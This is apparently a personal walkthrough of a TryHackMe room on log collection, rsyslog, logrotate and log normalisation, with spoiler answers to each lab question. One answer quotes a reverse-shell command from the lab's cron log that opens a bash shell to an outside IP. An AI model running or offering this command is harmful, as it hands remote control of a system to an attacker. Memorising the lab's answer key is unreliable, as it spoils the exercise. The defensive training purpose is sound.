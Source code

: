 # TryHackMe: Intro To Logs Walkthrough

## Learn the fundamentals of logging, data sources, collection methods and principles to step into the log analysis world

## TryHackMe SOC 2 Learning Pathway

### Introduction

This is a guideo to [tryhackme: Intro To Logs](https://tryhackme.com/room/introtologs)

Some nice graphics and a brief outline of learning outcomes.

### Expanding Perspectives: Logs as Evidence of Historical Activity

I'm not going to give the same information as the room does as I think the copyright rightly belongs to THM.

Start the machine here and it should open in the split-screen view. If it doesn't find the blue button at the top right of the page and click to open in split screen view. I'm doing this on a 13" notebook so split screen is a bit too tiny. When I want to interact with the machine in browser or RDP I tend to maximise the browser window and separate it and then stick it on the next desktop and use ctrl+Windows+arrow(R/L) to switch between remote machine and local.

For this machine you actually don't really need a desktop so I just ssh in from my WSL linux install through the VPN. I will document my usual setup here soon. 

However you choose to connect the login credentials for damianhall are on this page.

*Q1:  What is the name of your colleague who left a note on the Desktop?*

> cat Desktop/note.txt (or open in the GUI) 

<details>

  <summary>Spoiler warning: Answer</summary>
  
    Perry

</details>

*Q2: What is  full path to the suggested log file for initial investigation?*

> look in cat output of the note!

<details>

  <summary>Spoiler warning: Answer</summary>
  
    /var/log/gitlab/nginx/access.log

</details>

### Types, Formats, and Standards

There's a lot of good information here about log types and how they are structured. It's not easy to memorize this stuff without some practical applications. But I try to consider why each data point is necessary within each log and the structure becomes more intuitive. I haven't memorized it, but I'm confident that when I come across these types of logs in the wild then I will have a good chance at understanding them.

*Q1: Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?*

> Task 2 was discussing an Nginx server which is a web server...

<details>

  <summary>Spoiler warning: Answer</summary>

    Web Server Log 

</details>

*Q2: Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?*

> The materials clearly list what format the Nginx web server uses by default.

<details>

  <summary>Spoiler warning: Answer</summary>
    
    combined

</details>

### Collection, Management, and Centralisation

A lot of information here and an important note about time synchronisation to ensure the timeline of the logs. This is not possible on the room's VM because it doesn't have an internet connection (and you don't have root access either unless you've found a way in).

Go through the exercises and configure rsyslog.

*Q1 After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?*

> after you have done the exercises you should be able to view the log file - so run: cat /var/log/websrv-02/rsyslog_sshd.log Disconnected from invalid user ...

<details>

  <summary>Spoiler warning: Answer</summary>
    
    stansimon

</details>

*Q2 What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?*

> cat /etc/rsyslog.d/99-websrv-02-cron.conf

<details>

  <summary>Spoiler warning: Answer</summary>
    
    10.10.10.101

</details>

*Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?*

> cat /var/log/websrv-02/rsyslog_cron.log | grep -E 'root|CMD'

<details>

  <summary>Spoiler warning: Answer</summary>
    
    /bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"

</details>

### Storage, Retention and Deletion

Read the info - main points are to have a storage, retention deletion and backup policy in place and to stick to it for many reasons including regulatory and legal but also to allow automation and reduce human error.

Follow the practical activity to automate log rotation.

*Q1: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?*

> cat /etc/logrotate.d/99-websrv-02_cron.conf - if you followed the practical activity it should be pretty clear. 

<details>

  <summary>Spoiler warning: Answer</summary>
    
    24

</details>

*Q2: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?*

> See the output for the last question.

<details>

  <summary>Spoiler warning: Answer</summary>
    
    hourly

</details>

### Hands-on Exercise: Log analysis process, tools, and techniques

Time to get our hands dirty. There's still quite a bit of new information on data sources, parsing, normalising and sorting log data along with classification, enrichment, correlation, visualisation and finally reporting.

The room then goes on to discuss log analysis techniques.  

The introduction to the practical exercise mentions some methods to parse logs from the command line. While I'm quite comfortable with cat, grep, sort and uniq. I haven't often used awk or sed and these look like super powerful tools that I have noted for further study.

To view the logs they introduce an open source log viewer that is available for download from github. This is already installed on the room's VM so you won't need to download it.

Follow the long, cumbersome url given in the grey box (not the link to the github page) to look at the raw logs in a browser either in the GUI through the browser, from an AttackBox instance, or your own machine connected through the VPN. I have WSL Linux connected to the vpn and have a Google Chrome instance running from the WSL to connect.

Each step is given to process each log file using the command line. First the nginx, then rsyslog_cron, then rsyslog_sshd and finally gitlab-rails/api_json. Logs are normalised using awk and sed - that is the time and date formats are made to match each other and columns are rearranged to allow consolidation. Finally the commands output to a consolidated log file.

The normalisation commands are a bit long and, in my opinion, messy. These should probably be written into a script and automated, but they get the job done just running them from the command line.

Then sort and uniq are used to, well...sort and remove duplicates from the log entries.

Again follow the url (not the link) in your browser (connected to the THM network) to view the consolidated log files. Open in a new tab because you'll want to access the unparsed data too.

*Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?*

> OK, this is the unparsed log file that we opened initially NOT the normalised and consolidated one. Hopefully you have it open. Follow the hint and click the dropdown next to the add filter.

<details>

  <summary>Spoiler warning: Answer</summary>
    
    No date field

</details>

*What is the process of standardising parsed data into a more easily readable and query-able format?*

> This is what we did to the log file with all those awk sed and sort and uniq commands...

<details>

  <summary>Spoiler warning: Answer</summary>
    
    normalisation

</details>

*What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?*

> This one isn't initially obvious unless you've really understood the reading at the start of this chapter. When we consolidate multiple logs we are really adding value to our log files. When we add extra context to a log in the form of say, an IP address we are performing xxxxxxxxxx on the log. Forgive my grammar the gerund form would be more natural here but the answer is the noun.

<details>

  <summary>Spoiler warning: Answer</summary>
    
    enrichment

</details>

### Conclusion

I learned *a lot* from this room. And it has already me off on exploring the powerful awk and sed programs.
